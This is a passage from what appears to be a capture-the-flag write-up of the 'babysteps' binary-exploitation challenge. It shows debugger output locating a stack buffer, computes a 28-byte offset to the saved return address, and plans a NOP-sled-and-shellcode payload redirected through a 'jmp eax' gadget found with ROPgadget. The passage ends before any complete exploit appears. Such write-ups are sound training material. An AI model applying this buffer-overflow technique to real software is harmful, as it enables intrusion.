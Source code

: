 ```asm
 →  0x80492c9 <ask_baby_name+48> add    esp, 0x10
    0x80492cc <ask_baby_name+51> mov    ebx, DWORD PTR [ebp-0x4]
    0x80492cf <ask_baby_name+54> leave  
    0x80492d0 <ask_baby_name+55> ret    
    0x80492d1 <main+0>         lea    ecx, [esp+0x4]
    0x80492d5 <main+4>         and    esp, 0xfffffff0
─────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "babysteps", stopped 0x80492c9 in ask_baby_name (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80492c9 → ask_baby_name()
[#1] 0x8049496 → main()
────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern evyatar
[+] Searching 'evyatar' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd070 - 0xffffd077  →   "evyatar" 
gef➤  info frame
Stack level 0, frame at 0xffffd090:
 eip = 0x80492c9 in ask_baby_name; saved eip = 0x8049496
 called by frame at 0xffffd0c0
 Arglist at 0xffffd088, args: 
 Locals at 0xffffd088, Previous frame's sp is 0xffffd090
 Saved registers:
  ebx at 0xffffd084, ebp at 0xffffd088, eip at 0xffffd08c
```

Before we calculate the offset between the ```buffer``` to ```eip``` we can see that our input stored on ```EAX```:
```asm
$eax   : 0xffffd070  →  "evyatar"
```

It's can help us to build the payload.

So the buffer locates on ```0xffffd070``` and ```EIP``` on ```0xffffd08c``` so the offset is ```28``` bytes:
```console
... |   buffer[BUFFER_SIZE]   | 12 bytes  | EIP | ...
```

So because we know the buffer on ```eax``` we can put ```NOP*28``` and put our shellcode after the ```EIP``` and set to ```EIP``` gadget of ```jmp eax```:
```console
... | /x90 * 28 (Address in EAX)  |  gadget on "jmp eax" (EIP) | ....
```

Let's find the relevant gadget:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babysteps]
└──╼ $ ROPgadget --binary babysteps | grep "jmp eax"
0x08049543 : add eax, ebx ; jmp eax
0x08049545 : jmp eax
0x0804953c : mov eax, dword ptr [eax + ebx - 0x1c78] ; add eax, ebx ; jmp eax
```
